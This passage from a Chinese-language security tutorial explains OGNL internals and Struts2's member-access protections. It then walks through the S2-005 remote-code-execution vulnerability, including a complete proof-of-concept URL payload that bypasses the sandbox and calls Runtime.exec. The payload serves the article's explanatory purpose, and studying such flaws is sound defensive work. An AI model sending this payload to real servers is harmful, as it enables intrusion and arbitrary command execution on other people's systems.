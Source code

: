 OGNL支持直接通过表达式来构造对象，构造的方式主要包括三种：
```
1．构造List：使用{}，中间使用逗号隔开元素的方式表达列表
2．构造map：使用#{},中间使用逗号隔开键值对，并使用冒号隔开key和value
3．构造对象：直接使用已知的对象构造函数来构造对象
```
可以看到OGNL在语法层面上所表现出来的强大之处，不仅能够直接对容器对象构造提供语法层面支持，还能够对任意java对象提供支持。然而正因为OGNL过于强大，它也造成了诸多安全问题。恶意攻击者通过构造特定数据带入OGNL表达式解析并执行，而OGNL可以用来获取和设置Java对象的属性，同时也可以对服务端对象进行修改，所以只要绕过沙盒恶意攻击者甚至可以执行系统命令进行系统攻击。

### 深入OGNL实现类

在OGNL三要素中，context上下文环境为OGNL提供计算运行的环境，这个运行环境在OGNL内部由OgnlContext类实现，它是一个map结构。在OGNL.java中可以看到OgnlContext会在OGNL计算时动态创建，同时传入map结构的context，并根据传入的参数设定OGNL计算的一些默认行为以及设置root对象。

![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180109161518-3ab9e0b4-f515-1.png)

这里看到MemberAccess属性，在struts2漏洞利用中经常看到。转到OgnlContext类中查看。

![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180109161531-42807dd0-f515-1.png)

MemberAccess指定OGNL的对象属性、方法访问策略，这里初始默认情况下是flase，即默认不允许访问。在struts2中SecurityMemberAccess类封装了DefaultMeberAccess类并进行了扩展，指定是否支持访问静态方法以及通过指定正则表达式来规定某些属性是否能够被访问。其中allowStaticMethodAccess默认为flase，即默认禁止访问静态方法。

![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180109161547-4bd79c9c-f515-1.png)

另外在OGNL实现了MethodAccessor及PropertyAccessor类规定OGNL在访问方法和属性时的实现方式，详细可参考代码文件。
![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180109161603-559a9f2c-f515-1.png)

在struts2中，XWorkMethodAccessor类对MethodAccessor进行了封装，其中在callStaticMethod方法中可以看到，程序首先从上下文获取到DENY_METHOD_EXECUTION值并转换为布尔型，如果为false则可以执行静态方法，如果为true则不执行静态发放并返回null。

![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180109161627-63a614f2-f515-1.png)


## Struts2漏洞利用原理

上文已经详细介绍了OGNL引擎，因为OGNL过于强大，它也造成了诸多安全问题。恶意攻击者通过构造特定数据带入OGNL表达式即可能被解析并执行，而OGNL可以用来获取和设置Java对象的属性，同时也可以对服务端对象进行修改，所以只要绕过Struts2的一些安全策略，恶意攻击者甚至可以执行系统命令进行系统攻击。如struts2远程代码执行漏洞s2-005。

虽然Struts2出于安全考虑，在SecurityMemberAccess类中通过设置禁止静态方法访问及默认禁止执行静态方法来阻止代码执行。即上面提及的denyMethodExecution为true，MemberAccess为false。但这两个属性都可以被修改从而绕过安全限制执行任意命令。s2-005 POC如下：

```
http://mydomain/MyStruts.action?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean("false")))&(asdf)(('\u0023rt.exec(‘ipconfig’)')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1
```

在POC中\u0023是因为S2-003对#号进行了过滤，但没有考虑到unicode编码情况，而通过#_memberAccess[\'allowStaticMethodAccess\']')(meh)=true，可以设置允许访问静态方法，因为getRuntime方法是静态的，通过context[\'xwork.MethodAccessor.denyMethodExecution\']=#foo')(#foo=new%20java.lang.Boolean("false")设置拒绝执行方法为false，也就是允许执行静态方法。最后调用rt.exec(‘ipconfig’)执行任意命令。

## 参考
